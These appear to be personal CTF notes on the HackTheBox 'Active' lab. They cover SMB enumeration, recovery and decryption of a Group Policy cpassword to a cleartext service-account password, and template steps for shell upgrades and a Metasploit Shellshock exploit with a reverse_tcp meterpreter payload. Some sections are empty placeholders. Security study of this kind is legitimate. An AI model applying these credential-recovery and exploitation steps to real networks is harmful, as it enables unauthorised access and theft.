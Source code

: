# active, flow

## Summary

+ the full nmap scan took 1666.20 seconds (27 minutes), in the exam, find web server first.
+ run detailed (re)scan on initial enum results with specific target in mind.

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 10.129.96.185
  # rename-tab
sudo vim /etc/hosts
```

> 53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
> 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos -> ldap open

+ an the kerberos server usually also has an open ldap and folder share service.

> 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)

## dns-lookup

```sh
nslookup
> server 10.129.96.185
> 127.0.0.1
  # reverse dns
  # 1.0.0.127.in-addr.arpa  name = localhost.
> 10.129.96.185
  # no return
```

```sh
dnsrecon -d 10.129.96.185 -r 10.129.96.0/24
  # 5 seconds, no result
dnsrecon -d 10.129.96.185 -r 10.0.0.0/8
  # background, no result
```

## detailed enum with nmap

```sh
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -e 'default\|version' | grep 'smb'
  # locate -r use regex
  # the default scripts is  only a few
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -v -e 'default\|version' | grep 'smb' | grep -e 'safe'
nmap --script-help '(smb* and safe) and not (default or version)'
nmap --script '(smb* and safe) and not (default or version)' -p 445 active.htb
  # 30s
nmap --script 'smb-enum-services' -p 445 active.htb -d
  # -d to debug -> the script does not support SMBv2
```

## try with smbclient

```sh
smbclient -L active.htb
  # -L list <host>
  # only folder 'Replication' accessible, READONLY.
```

```sh
smbmap -H active.htb
smbmap -R Replication -H active.htb
  # -R <dirName> Recursively list dirs and files.
smbmap -R Replication -H active.htb -A '.*' --depth 40
  # -A find files that match(regex), and auto download.
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf

## alternatively, use
## smb: \> recurse ON
## smb: \> prompt OFF
## smb: \> mget *

  # in which, the Groups.xml contains account info
  # cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" ... userName="active.htb\SVC_TGS"
```

+ ref: [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py)

```sh
gpp-decrypt <cpassword>
  # from MS doc, the AES key of cpassword is key 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
  # which is actually AES-256-CBC with IV '\x00' *16 
  # GPPstillStandingStrong2k18
```

## try the account

```sh
smbmap -H active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' -x 'net user'
  # [!] Authentication error on active.htb
```

## AD enum, impacket

+ ref: [impacket, github](https://github.com/SecureAuthCorp/impacket)

```sh
locate impacket
```

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
